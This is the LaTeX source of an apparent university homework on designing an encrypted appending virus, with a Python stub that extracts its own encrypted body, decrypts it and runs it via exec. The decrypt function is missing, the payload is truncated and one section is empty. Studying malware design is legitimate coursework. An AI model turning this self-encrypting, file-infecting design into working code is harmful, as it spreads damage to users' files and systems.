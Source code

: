 \documentclass[a4paper,11pt]{article}
\begin{document}
\author{Vincenzo Arceri VR386484 \\ Giovanni Liboni VR387955 \\ Alberto Marini}
\title{Malware analysis and design \\ Homework No. 3}
\maketitle

\section{Introduction}
The purpose is to design a virus similar to the \textit{vbash} one, except that it will be encrypted. Its structure is divided in two parts:
\begin{itemize}
\item The first part of the code will be unencrypted and will simply consist of the decryption function. The key will be made of the first bytes of the infected virus.
\item The second part (the most important one) will consist of the main body of the virus.
\end{itemize}
The virus will be an appending one. It will spread as follows:
\begin{itemize}
\item It looks for infected is executed.
\item During the infection, it creates a specific key for each file (once again, a few bytes are taken from the target file), then encrypts its own main body and adds both the decrypting routine and the ( encrypted ) main viral body to the target file.
\item A potential payload may be triggered ( with or without a delayed action mechanism).
\end{itemize}

\section{Virus design}


\section{Implementation}

\begin{verbatim} 
# Open the virus itself
this = open(__main__.__file__, 'r')
# Set copy variable to False
copy = False
# Initialize an empty payload
cipher_payload = ''

# Search for the encrypted main body of the virus and copy it into cipher_payload
for line in this:
   if line.strip() == '# Start payload':
      copy = True
   elif line.strip() == '# End payload':
      copy = False
   elif copy:
      cipher_payload = cipher_payload + line
# Decrypt the main body of the virus and execute it.
e = decrypt(cipher_payload[1:])
exec e

# Encrypted main body of the virus
# Start payload
#8eoDXnZwwdY/TUaf5IQOo5+tbvE2zllu4t0m...
# End payload
\end{verbatim}
\end{document}

